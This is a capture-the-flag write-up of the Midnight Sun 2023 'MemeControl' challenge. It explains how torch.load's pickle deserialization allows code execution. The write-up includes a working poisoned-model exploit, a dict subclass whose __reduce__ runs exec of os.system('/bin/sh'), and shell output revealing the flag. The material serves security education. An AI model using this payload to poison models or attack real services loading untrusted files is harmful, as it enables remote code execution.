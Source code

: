 # MemeControl
#### Category: pwn

Description:
> Author: hfs
> TODO:
>
>
> flag: midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}

**Tags:** Python, PyTorch, Pickle Deserialization, Midnight Sun CTF Quals 2023

## Takeaways

Importing/Loading wild ML models can result in arbitrary code execution. Thus, it is advised to only load models from trustworthy sources.

## Challenge

In this challenge we are given a piece of python code that expects a base64 encoded ML model, loads it, and sets it in evaluation mode. The evaluation in itself is not that interesting, but, PyTorch is well known to be insecure when loading a model from the wilderness.

As stated in the [documentation](https://pytorch.org/docs/stable/generated/torch.load.html#torch.load):


> **Warning**:
> `torch.load()` unless *weights_only* parameter is set to *True*, uses `pickle module` implicitly, which is known to be insecure. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never load data that could have come from an untrusted source in an unsafe mode, or that could have been tampered with. **Only load data you trust**

We can immediately recognize that the program is vulnerable to such an attack. In order to get remote code execution we just need to pop a shell during the unpickling. Perhaps by crafting it so that it executes `os.system('/bin/sh')`.

```python
import io
import torch
import base64

banner = \
'''
8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 
'''

try: 
    print(banner)
    base64_string = input("Send the base64 encoded model: ")
    bytes_data = base64.b64decode(base64_string)

    print("Evaluating the model ...")
    device = torch.device("cpu")
    model = torch.load(io.BytesIO(bytes_data), map_location=device)
    model.eval()
    print("Finished evaluating the model!")
except Exception as e:
    print(f"Ooops, this model is no good: {e}".format(e))
```

## Solution
Credits where they are due, we built our approach on the [patch-torch-save](https://github.com/yk/patch-torch-save) repo from `yk` that shows how to *poison* an existing model.

A model in itself is simply a dictionary, since we want to limit our payload as much as possible, and the actual usability of the model is of no concern. We define our model an plain dictionary. But an attacker could always use a legit large model. 

```python
super_ml_model: dict = {
    "Z":"T",
    "0":"T"
}
```

We define a `dict` subclass with a custom `__reduce__` function which will be called when the dict object will be pickled by `torch.save()`. 

`__reduce__` takes as a parameter a callable object that will be called to create the initial version of the object. In our case, we chose to simply use `exec` to execute any arbitrary code. Since there are no checks, our malicious code is as simple as it gets, the good ol' `os.system('/bin/sh')`.


```python
class BadDict(dict):

    def __init__(self, inject_src: str, **kwargs):
        super().__init__(**kwargs)
        self._inject_src = inject_src

    def __reduce__(self):
        return exec, (f'''{self._inject_src}''',), None, None, iter(self.items())

malicious_code = \
"""
import os
print("Hello from the other side! Popping a shell...")
os.system('/bin/sh')
"""

malicious_dict = BadDict(malicious_code, **super_ml_model)
torch.save(malicious_dict, "memecontrol.pth")
```

And we are all set! Now when the model will be unpickled by `torch.load()`, the malicious code will be executed. And we can simply cat the flag file.

```python
In [1]: import torch
In [2]: torch.load('./memecontrol.pth')
Hello from the other side! Popping a shell...
$ cat flag
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```

## Final Exploit
`exploit.py` uses pwntools to automate the exploit both locally and remotely. Assuming you have all the required packages, you can test the exploit locally with:
```bash
$ python3 exploit.py LOCAL

[*] Exporting malicious model. Code to be executed:
    import os
    print("Hello from the other side! Popping a shell...")
    os.system('/bin/sh')
[+] Starting local process '/home/ctfbox/.pyenv/shims/python3': pid 39565
...
Send the base64 encoded model: 
[*] Pushing payload: UEsDBAAACAgAAAAAAAAAAAAAAAAAAAAA...
[+] Evaluating the model ...
    Hello from the other side! Popping a shell...
[*] Switching to interactive mode
$ cat flag
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```


